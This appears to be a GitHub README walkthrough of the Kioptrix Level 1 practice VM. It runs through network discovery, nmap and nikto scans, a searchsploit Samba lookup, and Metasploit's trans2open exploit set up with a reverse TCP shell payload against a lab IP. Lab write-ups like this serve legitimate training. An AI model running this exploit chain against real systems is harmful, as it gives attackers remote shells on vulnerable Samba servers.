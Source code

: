 # Kioptrix-Level-1
Join me as we embark on a journey through this virtual labyrinth, where we'll uncover vulnerabilities, exploit weaknesses, and ultimately conquer the system.
# 1. Reconnaissance:
```bash
  arp-scan -l  Or  sudo netdiscover
```
## Employed Nmap to identify open ports and services. 
```bash
 nmap -sV -A  <Enter Kioptrix IP (10.0.2.5)> Or sudo nmap kioptrix -sV -p- -O -T4 -oN nmap <Enter Kioptrix IP (10.0.2.5)>
```
## For nikto scan 
```bash
nikto http://10.0.2.5
```
# 2. Vulnerability Identification:
To find vulnerabilities , we need to know the samba version :

The searchsploit command is designed to uncover valuable information within the Exploit Database: 
```bash
searchsploit samba
```
# 3. Exploitation:
The following commands can be used to launch Metasploit.
execute 
```bash 
sudo msfconsole
```
## Then we search the vulnerability and configure options for exploitation.
```bash
search samba version command to search exploit
```
Use 
```bash 
exploit/linux/samba/trans2open
```

```bash
Options
```
We can use options command to see the options.

Use:-
msf exploit(linux/samba/trans2open) >

```bash
set RHOST <target Ip(10.0.2.5)>
```

msf exploit(linux/samba/trans2open) > 
```bash 
set RPORT 139
```
msf exploit(linux/samba/trans2open) > 
```bash
set payload linux/x86/shell_reverse_tcp
```
msf exploit(linux/samba/trans2open) > 
```bash 
exploit
```






